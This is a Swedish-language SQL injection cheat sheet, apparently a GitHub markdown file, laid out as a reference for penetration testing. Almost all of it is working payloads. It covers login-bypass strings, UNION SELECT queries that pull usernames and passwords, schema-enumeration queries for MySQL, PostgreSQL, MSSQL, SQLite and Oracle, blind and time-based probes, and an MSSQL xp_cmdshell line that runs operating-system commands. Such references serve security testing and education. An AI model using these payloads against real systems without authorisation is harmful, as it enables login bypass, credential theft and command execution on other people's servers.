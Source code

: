 # SQL Injection Cheat Sheet

## Vanliga SQL-dialekter & standarddatabaser

| Dialekt            | Standarddatabaser/by default                | Exempel på tabeller                 |
|--------------------|---------------------------------------------|-------------------------------------|
| **MySQL**          | `mysql`, `information_schema`              | `mysql.user`, `information_schema.tables` |
| **PostgreSQL**     | `postgres`, `information_schema`, `pg_catalog` | `pg_user`, `pg_tables`, `pg_roles`     |
| **MSSQL (SQL Server)** | `master`, `tempdb`, `model`, `msdb`     | `sys.databases`, `sysobjects`, `sysusers` |
| **SQLite**         | - (metadata i `sqlite_master`)              | `sqlite_master`, `users`, `data`    |
| **Oracle**         | `SYS`, `SYSTEM`                            | `ALL_USERS`, `ALL_TABLES`, `DBA_USERS` |

---

## Identifiera potentiella sårbarheter

Testa manuellt med t.ex.:

```sql
' OR '1'='1
admin' --
1' OR '1'='1' /*
```

Tecken på sårbarhet:

- SQL-felmeddelanden (syntaxfel, okända kolumner)
- 500 Server error
- Oväntade resultat (alla användare visas, inloggning godkänns utan rätt lösenord)

---

## MySQL Snabbkommandon

```sql
-- Lista databaser
SELECT schema_name FROM information_schema.schemata;

-- Lista tabeller i en viss databas
SELECT table_name FROM information_schema.tables WHERE table_schema='databasnamn';

-- Lista kolumner i en tabell
SELECT column_name FROM information_schema.columns WHERE table_name='users';
```

---

## PostgreSQL Snabbkommandon

```sql
-- Lista användare
SELECT usename FROM pg_user;

-- Lista databaser
SELECT datname FROM pg_database;

-- Lista tabeller
SELECT tablename FROM pg_tables WHERE schemaname='public';
```

---

## MSSQL Snabbkommandon

```sql
-- Lista databaser
SELECT name FROM master..sysdatabases;

-- Lista tabeller
SELECT name FROM sysobjects WHERE xtype='U';

-- Exekvera kommandon (om tillåtet)
EXEC xp_cmdshell 'whoami';
```

---

## SQLite Snabbkommandon

```sql
-- Lista alla tabeller
SELECT name FROM sqlite_master WHERE type='table';

-- Läs innehåll från tabell
SELECT * FROM users;
```

---

## Test-payloads

```sql
' OR 1=1 --
admin' OR '1'='1' --
' UNION SELECT NULL,NULL,NULL --
' UNION SELECT 1,username,password FROM users --
```

Tips: börja med 1 kolumn och öka tills det fungerar.

---

## Vanliga bypass-tekniker

```sql
' OR 1=1 --
" OR 1=1 --
' OR 'a'='a
admin' #
admin'/*
```

Kommentarssyntax:

- `--` (MySQL, MSSQL, PostgreSQL)
- `#` (MySQL)
- `/* ... */` (alla)

---

## Tips

- **ORDER BY-test** för att räkna kolumner:

```sql

  ' ORDER BY 1 --
  ' ORDER BY 2 --
  ' ORDER BY 3 --
```

- **Blind SQLi** (ingen output, men logik kan manipuleras):

```sql
  ' AND 1=1 --
  ' AND 1=2 --
```

- **Tidsbaserad** (för PostgreSQL, MySQL, etc.):

```sql
  ' OR SLEEP(5) --
  ' OR pg_sleep(5) --
```

---

## Rekommenderade verktyg

- **Burp Suite / Caido**
- **SQLmap**
- **sqlitebrowser**

---

